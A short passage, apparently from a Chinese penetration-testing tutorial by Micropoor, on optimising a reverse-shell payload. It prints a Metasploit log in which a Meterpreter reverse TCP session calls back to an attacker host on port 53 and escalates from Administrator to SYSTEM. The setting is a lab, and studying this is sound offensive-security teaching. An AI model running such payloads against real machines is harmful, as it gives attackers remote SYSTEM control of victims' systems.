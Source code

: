 **第三次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。并且最终编译运行库依然为：**/MT**  

![](/img/4e172aa523497f62e049cc0e7dfb622a.jpg)

![](/img/25c74a3a578b2e23477821175b489769.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 11 opened (192.168.1.5:53 ‐> 192.168.1.119:3894) at 2019‐01‐27 14:56:30 ‐0500 6
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 3152
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
![](/img/74defd3d7b4b42c88aadac9d9d4fd476.jpg)

### 第四次优化payload：

.......

文中的前三次优化，三次生成，已满足大部分实战场景。当遇到更苛刻的实战场景，75776字节优化到3174字节，接下来的季中，会继续优化。

>   Micropoor
